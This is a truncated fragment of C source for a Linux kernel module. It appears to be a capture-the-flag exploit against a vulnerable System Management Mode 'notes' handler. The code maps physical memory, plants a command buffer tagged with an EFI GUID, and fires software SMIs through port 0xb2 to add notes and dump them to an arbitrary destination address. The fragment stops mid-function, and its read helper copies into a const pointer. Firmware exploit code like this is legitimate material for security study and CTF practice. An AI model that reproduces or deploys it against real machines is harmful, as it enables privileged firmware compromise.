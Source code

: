 ```c
    iounmap(io_addr);
}

int read_phys_mem(unsigned long phys_addr, size_t size, const void *data) {
    void __iomem *io_addr;

    // Map the physical address to a virtual address
    io_addr = ioremap(phys_addr, size);
    if (!io_addr) {
        pr_err("Failed to remap physical address %lx\n", phys_addr);
        return -1;
    }

    // Write the data
    memcpy_fromio(data,io_addr, size);

    // Unmap the address
    iounmap(io_addr);
    return 0;
}

u64 payload_loc;
u64 smcc;
void __iomem* io_addr;
efi_guid_t target_guid = EFI_GUID(0xb888a84d, 0x3888, 0x480e, 0x95, 0x83, 0x81, 0x37, 0x25, 0xfd, 0x39, 0x8b);

static void add_note(uint32_t idx, char* data) {
    comm_data_t payload;
    payload.cmd = ADD_NOTE;
    payload.idx = idx;
    size_t len = sizeof(payload) + 24;
    memcpy(payload.data.note.note, data, sizeof(payload.data.note.note));

    u64 combuf_off = 56;
    u64 buffersz_off = combuf_off + 8;
    u64 ret_off = buffersz_off + 8;

    write_phys_mem(smcc + combuf_off, 8, &payload_loc);
    write_phys_mem(smcc + buffersz_off, 8, &len);

    memcpy_toio(io_addr, &target_guid, sizeof(efi_guid_t));
    memcpy_toio(io_addr + sizeof(efi_guid_t), &len, sizeof(size_t));
    memcpy_toio(io_addr + sizeof(efi_guid_t) + sizeof(size_t), &payload, sizeof(comm_data_t));

    printk(KERN_INFO "Triggering OUT SMI for idx: %d \n", idx);

    outb(0x0, 0xb2);
}

static void dump_notes(uint64_t dest) {
    comm_data_t payload;
    payload.cmd = DUMP_NOTES;
    payload.data.dest = dest;
    size_t len = sizeof(payload) + 24;

    u64 combuf_off = 56;
    u64 buffersz_off = combuf_off + 8;
    u64 ret_off = buffersz_off + 8;

    write_phys_mem(smcc + combuf_off, 8, &payload_loc);
    write_phys_mem(smcc + buffersz_off, 8, &len);

```